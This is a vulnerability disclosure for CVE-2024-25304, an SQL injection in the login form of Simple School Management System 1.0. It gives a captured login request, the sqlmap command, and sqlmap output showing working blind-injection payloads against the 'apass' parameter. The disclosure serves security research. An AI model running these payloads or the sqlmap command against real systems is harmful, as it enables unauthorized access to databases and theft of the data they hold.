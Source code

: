 # CVE-2024-25304 - Simple School Managment System - SQL Injection - 2
+ **Exploit Title:** Simple School Managment System - SQL Injection - 2
+ **Date:** 2024-01-02
+ **Exploit Author:** Tuba Kavgacı
+ **Vendor Homepage:** https://code-projects.org/simple-school-management-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/d10e92aa-e37f-46fd-9bf8-45878956d7c0
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-2024-25304

## Description:
Simple School Managment System 1.0 allows SQL Injection via the 'apass' parameter at "School/index.php". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/School/index.php"
+ Try logging in by typing random things
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
POST /School/index.php HTTP/1.1
Host: localhost
Content-Length: 30
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/School/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=hidk6npo6f802og8sqcir2veul
Connection: close

aname=selam&apass=selam&login=

```

+ Use sqlmap to exploit. In sqlmap, use 'apass' parameter to dump the database.
```
sqlmap -r r.txt -p apass --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: apass (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: aname=selam&apass=selam' OR NOT 3577=3577-- Puvb&login=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: aname=selam&apass=selam' AND (SELECT 1829 FROM (SELECT(SLEEP(5)))ZApL)-- UKjz&login=
---
[04:26:20] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[04:26:20] [INFO] fetching current database
[04:26:20] [INFO] resumed: school
current database: 'school'

```
+ current database: `school`

![Ekran görüntüsü 2024-02-01 123032](https://github.com/tubakvgc/CVEs/assets/74067343/18f8e09f-5035-4dd2-b1a4-51116c918484)
